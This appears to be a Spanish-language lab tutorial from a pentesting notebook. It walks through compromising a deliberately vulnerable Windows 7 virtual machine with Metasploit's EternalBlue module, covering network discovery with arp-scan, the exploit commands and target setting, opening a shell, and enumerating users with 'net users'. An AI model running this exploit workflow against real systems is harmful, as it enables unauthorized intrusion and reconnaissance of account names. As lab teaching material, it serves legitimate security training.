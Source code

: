 Maquinas que vamos a utilizar Kali Linux y Windows 7 Vulnerable [https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view)

  

vamos a conocer el funcionamiento del comando **net users** para poder ver los usuarios existentes dentro de un sistema Windows, de tal forma que podremos, lo cual nos brindará mucha información para continuar con la post-explotación

  

- Vamos a Comprometer una maquina Windows 7 con Metasploit aprovechando la vulnerabilidad Eternal Blue
    
      
    
    ```Bash
    sudo arp-scan -I eth0 --localnet
    ```
    
    ![[Imagenes/image 60.png|image 60.png]]
    
      
    
- Lanzamos Metaesploit y buscamos eternalblue
    
    `search eternalblue`
    
    ![[Imagenes/image 1 49.png|image 1 49.png]]
    

  

- Escogemos el exploit 0
    
    `use 0`
    
    ![[Imagenes/image 2 48.png|image 2 48.png]]
    
      
    
- Hacemos un show options y rellenamos lo que necesitemos y ejecutamos
    
    `show options`
    
    `set RHOST 10.0.3.6`
    
    `run`
    
    ![[Imagenes/image 3 47.png|image 3 47.png]]
    
      
    
- Nos pasamos a una shell dentro de Windows
    
    `shell`
    
    ![[Imagenes/image 4 45.png|image 4 45.png]]
    

  

- Vamos a probar comando **net user** que no se puede ejecutar cuando estamos en meterpreter:
    - `net users`
        
        ![[Imagenes/image 5 44.png|image 5 44.png]]
        
        Vemos que tenemos tres usuarios , **administrador, Invitado y Mario**.